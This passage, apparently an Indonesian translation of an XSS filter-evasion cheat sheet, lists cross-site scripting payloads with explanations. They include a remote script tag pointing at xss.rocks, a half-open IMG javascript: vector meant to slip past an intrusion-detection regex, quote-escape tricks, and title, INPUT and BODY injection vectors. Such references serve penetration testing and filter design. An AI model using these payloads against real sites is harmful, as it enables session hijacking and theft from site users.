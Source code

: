 Varian khusus ini sebagian didasarkan pada bypass resolusi protokol Ozh di bawah ini, dan berfungsi di IE dan Edge dalam mode kompatibilitas. Namun, ini sangat berguna jika ruang menjadi masalah, dan tentu saja, semakin pendek domain Anda, semakin baik. `.j` valid, terlepas dari jenis penyandian karena peramban mengenalinya dalam konteks tag SCRIPT:

```html
<SCRIPT SRC=//xss.rocks/.j>
```

(Dikirimkan oleh Łukasz Pilorz)

### Vektor XSS HTML/JavaScript Setengah Terbuka

Tidak seperti Firefox, mesin perender IE (Trident) tidak menambahkan data tambahan ke halaman Anda, tetapi mengizinkan direktif `javascript:` dalam gambar. Ini berguna sebagai vektor karena tidak memerlukan tanda kurung siku yang rapat. Ini mengasumsikan ada tag HTML di bawah tempat Anda menyuntikkan vektor XSS ini. Meskipun tidak ada tag `\>` yang rapat, tag di bawahnya akan menutupnya. Catatan: ini mengacaukan HTML, tergantung pada HTML apa yang ada di bawahnya. Ia mengatasi regex sistem deteksi intrusi jaringan (NIDS) berikut: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` karena tidak memerlukan akhiran `\>`. Sebagai catatan tambahan, ini juga efektif terhadap filter XSS dunia nyata yang menggunakan tag `<IFRAME` terbuka alih-alih tag `<IMG`.

```html
<IMG SRC="`<javascript:alert>`('XSS')"
```

### Melarikan Diri dari Karakter Escape JavaScript

Jika sebuah aplikasi ditulis untuk menampilkan beberapa informasi pengguna di dalam JavaScript (seperti berikut: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`) dan Anda ingin memasukkan JavaScript Anda sendiri ke dalamnya tetapi aplikasi sisi server melakukan escape pada tanda kutip tertentu, Anda dapat menghindarinya dengan melakukan escape pada karakter escape-nya. Ketika kode ini disuntikkan, kode ini akan membaca `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` yang akhirnya membatalkan tanda kutip ganda dan menyebabkan vektor XSS aktif. Pencari XSS menggunakan metode ini:

```js
\";alert('XSS');//
```

Alternatifnya, jika JSON atau JavaScript yang benar telah diterapkan pada data yang disematkan tetapi bukan penyandian HTML, adalah menyelesaikan blok skrip dan memulai sendiri:

```js
</script><script>alert('XSS');</script>
```

### Akhiri Tag Judul

Ini adalah vektor XSS sederhana yang menutup tag `<TITLE>`, yang dapat merangkum serangan skrip lintas situs yang berbahaya:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

#### INPUT Gambar

```html
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

#### BODY Gambar

```html
<BODY BACKGROUND="javascript:alert('XSS')">
```
